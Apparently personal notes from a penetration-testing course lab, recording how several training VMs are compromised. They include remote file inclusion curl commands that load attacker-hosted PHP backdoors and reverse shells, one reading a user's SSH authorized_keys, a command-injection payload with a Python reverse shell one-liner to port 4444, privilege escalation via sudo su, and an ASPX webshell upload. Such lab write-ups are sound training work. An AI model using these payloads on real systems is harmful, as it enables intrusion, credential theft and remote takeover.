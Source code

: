 * `curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.203/simple-backdoor.php&cmd=cat%20/home/elaine/.ssh/authorized_keys"`
* Got flag from .ssh/authorized_keys
## 9.2.3 VM1-2 - 192.168.208.16
* Used pentestMonkey's php reverse shell grep -r monkey /usr/share/webshells
* edited file with my ip and port 4444
* started NC listener `nc -nvlp  4444`
* sent curl command with simple shell.php retrieval, got shell
* `curl "http://mountaindesserts.com:8001/meteor/index.php?page=http://192.168.45.203/phprevshell9.php"`
* `cat flag.txt`  OS{94beebffc9033b9eaaf8fa7bbe437fcd}

## 9.3 VM3 - 192.168.102.16
Capstone Lab: Start the Future Factor Authentication application on VM #3. Identify the vulnerability, exploit it and obtain a reverse shell. Use sudo su in the reverse shell to obtain elevated privileges and find the flag located in the /root/ directory.

* initial scan
* enumerate with Gobuster
gobuster dir -u http://192.168.102.16 -w /usr/share/wordlists/dirb/common.txt -t 40 -x .php,.txt,.html 

Visit VM #3's webserver to find three fields on the login page.
Test various inputs like && to identify the command injection vulnerability.
Assume the back-end uses a vulnerable function like eval() or popen(): popen(f'echo "test"')

[Command Injection list] (https://hackviser.com/tactics/pentesting/web/command-injection)
This one worked, in the 3rd, combined field login on http://192.168.102.16/login
```bash

a`uname`
# identify what binaries are available
a`which python3`
# revshell.scom python3 shortest
a`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.167",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'`
# on revshell on KALIi
sudo su
```

## 9.3 VM4  192.168.102.192
nmap, then gobuster
ports 80 and 8000 were open
uploaded files on IIS on 8000.. but browsed executed on 80
Wappalyzer identifieid ASPNET in use. Uploaded ASPX from /usr/share/webshells/aspx
